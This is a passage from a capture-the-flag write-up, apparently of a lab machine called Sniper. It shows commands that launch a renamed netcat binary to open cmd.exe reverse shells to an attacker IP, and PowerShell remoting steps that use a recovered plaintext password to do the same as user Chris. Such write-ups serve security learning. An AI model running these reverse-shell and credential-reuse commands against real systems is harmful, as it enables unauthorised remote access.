 {% include image.html image_alt="773212b4.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/773212b4.png" %}


Sweet. It's there. Let's get our reverse shell.

```
# ./tidy.sh 'start \windows\system32\spool\drivers\color\cute.exe 10.10.15.171 1234 -e cmd.exe'
```


{% include image.html image_alt="a45965d7.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/a45965d7.png" %}


There you have it.

## Privilege Escalation

During enumeration of the `iusr` account, I found the password of `Chris` in `C:\inetpub\wwwroot\user\db.php`. And guesss what, `Chris` is able to perform PowerShell Remoting.


{% include image.html image_alt="022b35d8.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/022b35d8.png" %}


Armed with the credentials of Chris, I can get myself a reverse shell as `Chris` and no surprise, the file `user.txt` in in `Chris`'s desktop.

### Getting `user.txt`

But how, I hear you asking. Well, like this.

```
> $pw = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential("snipe\chris", $pw)
> Enter-PSSession -ComputerName SNIPER -Credential $cred
> Start-Process -FilePath "\windows\system32\spool\drivers\color\cute.exe" -ArgumentList "10.10.15.171 4321 -e cmd.exe" -NoNewWindow
```


{% include image.html image_alt="8bb702a1.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/8bb702a1.png" %}


### Getting `root.txt`

During enumeration of `Chris`'s account, I saw an `instructions.chm` lamenting the life of a developer and an evil boss like so.


{% include image.html image_alt="455f2f0d.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/455f2f0d.png" %}


There's also another` note.txt` that depicts a boss who has a rather low opinion of Chris.

```
Hi Chris,                                                                                           
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.                                                                                         
```
